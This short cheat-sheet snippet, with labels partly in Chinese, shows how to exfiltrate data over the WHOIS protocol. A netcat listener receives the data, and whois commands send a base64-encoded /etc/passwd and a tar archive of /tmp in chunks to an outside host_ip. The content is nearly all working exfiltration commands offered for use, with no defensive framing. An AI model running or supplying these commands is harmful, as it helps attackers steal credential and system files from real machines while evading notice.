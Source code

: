 WHOIS 接收端 Host B：

nc -vlnp 1337 | sed "s/ //g" | base64 -d   
 

发送端 Host A：

whois -h host_ip -p 1337 `cat /etc/passwd | base64`  
 

WHOIS + TAR First:


```shell
ncat -k -l -p 4444 | tee files.b64  #tee to a file so you can make sure you have it

Next

tar czf - /tmp/* | base64 | xargs -I bits timeout 0.03 whois -h host_ip -p 4444 bits  
 

Finally

cat files.b64 | tr -d '\r\n' | base64 -d | tar zxv #to get the files out

```
